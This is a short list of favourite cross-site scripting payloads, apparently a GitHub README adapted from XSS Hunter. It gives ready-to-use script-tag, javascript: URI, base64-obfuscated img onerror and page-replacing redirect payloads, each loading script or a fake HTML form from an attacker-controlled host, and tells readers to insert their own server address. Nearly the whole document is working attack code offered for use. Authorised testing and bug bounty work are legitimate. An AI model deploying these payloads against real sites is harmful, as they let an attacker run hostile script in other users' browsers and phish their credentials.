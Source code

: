 A Few of My Favorite XSS Payloads: 

Most of these are from or variations of [XSS Hunter]{https://xsshunter.com/app} payloads. 
You can simply modify the host in the payload and run your own web server to both host secondary payloads and check for blind XSS.

Basic Tag XSS payload -

"><script src=http://192.168.1.1></script>

URI XSS payload - 
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://192.168.1.1\';document.body.appendChild(a)')

IMG Tag Base64 encoded payload - 

  Final payload - (don't use this directly, follow the directions below. This is just an example)
  "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHA6Ly8xOTIuMTY4LjEuMSI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= onerror=eval(atob(this.id))>

  Inner payload - modify your IP address then base64 encode this.
  var a=document.createElement("script");a.src="http://192.168.1.1";document.body.appendChild(a);

IMG Tag + iframe to replace page with your own HTML form - 
<img src=x onerror="Javascript:window.location.replace('http://192.168.1.1/payload.html')">





